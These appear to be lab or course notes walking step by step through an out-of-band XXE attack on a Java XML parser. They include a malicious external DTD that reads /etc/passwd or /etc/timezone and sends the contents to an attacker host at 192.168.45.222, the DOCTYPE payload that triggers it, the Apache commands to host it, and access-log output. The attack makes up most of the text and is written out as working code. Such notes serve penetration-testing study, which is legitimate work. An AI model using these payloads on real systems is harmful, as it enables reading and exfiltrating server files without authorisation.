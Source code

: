 `external.dtd`
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```

```bash
cd /var/www/html/
sudo mousepad external.dtd
sudo systemctl start apache2
```
The `content` entity defines which file we are targeting. The `external` parameter defines another entity named `exfil`, which appends the `content`entity to a URL.
We'll place this on our Apache webroot at /var/www/html, and start our Apache server.

We will also need to update our payload to use these entities. Since we are using parameter entities, we will need to reference them within the DOCTYPE definition.

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.222/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

We'll start by including a parameter entity that references external.dtd, the DTD file on our Kali host. Next, we'll reference the _base_ entity, which will cause the parser to load the DTD file from our server and parse it. We will then reference the _external_ entity, which is defined in our remote DTD file. The XML parser will "expand" the _external_ entity, creating the _exfil_ entity. Lastly, we reference the "new" _exfil_ entity, which will cause the parser to attempt to load a resource from our server with the contents of the _content_ entity in the query string.

Unfortunately, when we submit this XML payload, we receive an error from the server.

![[Pasted image 20241021204039.png]]

The application encountered an error while parsing our XML data, but the important part of the error message is `"Illegal character in URL"`. We attempted to append the contents of `/etc/passwd` to a URL. Perhaps there are characters, such as line breaks, within the file that are breaking the URL.

***Other programming languages might be more permissive in what they consider a valid URL.***

We can verify the application requested external.dtd by checking `/var/log/apache2/access.log`.
```bash
┌──(root💀gobots)-[22Oct2024 00:38:53]-[/var/www/html]
└─# tail /var/log/apache2/access.log
192.168.228.110 - - [22/Oct/2024:00:40:15 +0000] "GET /external.dtd HTTP/1.1" 200 433 "-" "Java/1.8.0_292"
```
Let's update `external.dtd` to target a file that is likely one line and has fewer special characters in it. We will target `/etc/timezone`.
```bash
<!ENTITY % content SYSTEM "file:///etc/timezone">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```
We will submit our payload again. We can ignore the error message that pops up. Instead, we'll check our Apache log file.
![[Pasted image 20241021204450.png]]
```bash
┌──(root💀gobots)-[22Oct2024 00:43:31]-[/var/www/html]
└─# tail /var/log/apache2/access.log
192.168.228.110 - - [22/Oct/2024:00:40:15 +0000] "GET /external.dtd HTTP/1.1" 200 433 "-" "Java/1.8.0_292"
```